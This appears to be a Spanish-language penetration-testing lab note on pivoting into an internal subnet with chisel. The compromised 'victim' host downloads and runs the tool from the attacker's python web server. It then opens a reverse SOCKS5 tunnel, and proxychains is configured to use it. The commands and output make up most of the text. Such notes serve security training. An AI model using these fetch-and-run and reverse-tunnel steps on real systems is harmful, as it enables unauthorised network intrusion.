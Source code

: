 ##### Maquina objetivo `20.20.20.3`
Sabiendo que tenemos conectivado con la maquina:
```bash
ping -c 1 10.10.10.2
```

Pero no con la maquina que existe en la subred:
```bash
ping -c 1 20.20.20.3

PING 20.20.20.3 (20.20.20.3) 56(84) bytes of data.
--- 20.20.20.3 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

#### Preparar servidor en atacante (10.10.10.1)
En este caso no tentemos **ping** pero contamos con los comandos de **curl** y **wget** asi que ahora tendremos que montar un servidor con **python** desde nuestra maquina atacante, Para tranferir el **chisel** a la maquina victima:
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz

gzip -d chisel_* && chmod +x chisel_*
```

Iniciamos el servidor que estara en escucha por el puerto **8000** en nuestra maquina atacante
```bash
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
2025/07/01 21:57:17 server: Reverse tunnelling enabled
2025/07/01 21:57:17 server: Fingerprint ZcIy8S+OfYEf6uL3pQorKe6Gehh/E0Cv1oRij1cLCDo=
2025/07/01 21:57:17 server: Listening on http://0.0.0.0:8000
```

#### Enviar chisel al objetivo (10.10.10.2)
Ahora montamos le servidor para que este disponible **chisel** desde nuestra maquina atacante:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

Como **root** en la maquina victima en el directorio temporal realizaremos la peticion para descargar la herramienta **chisel**:
```bash
wget http://10.10.10.1/chisel_1.9.1_linux_amd64

chmod +x chisel_1.9.1_linux_amd64
```

#### Crear túnel inverso (SOCKS5) maquina victima
```bash
./chisel_1.9.1_linux_amd64 client 10.10.10.1:8000 R:socks
2025/07/01 22:02:51 client: Connecting to ws://10.10.10.1:8000
2025/07/01 22:02:51 client: Connected (Latency 279.657µs)
```

#### Configurar proxy en atacante
1. Verifica que el proxy SOCKS5 escucha en `127.0.0.1:1080` (automático con chisel)
2. Configura herramientas para usar el proxy como root:
```bash
# Usando proxychains (edita /etc/proxychains4.conf):
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
```
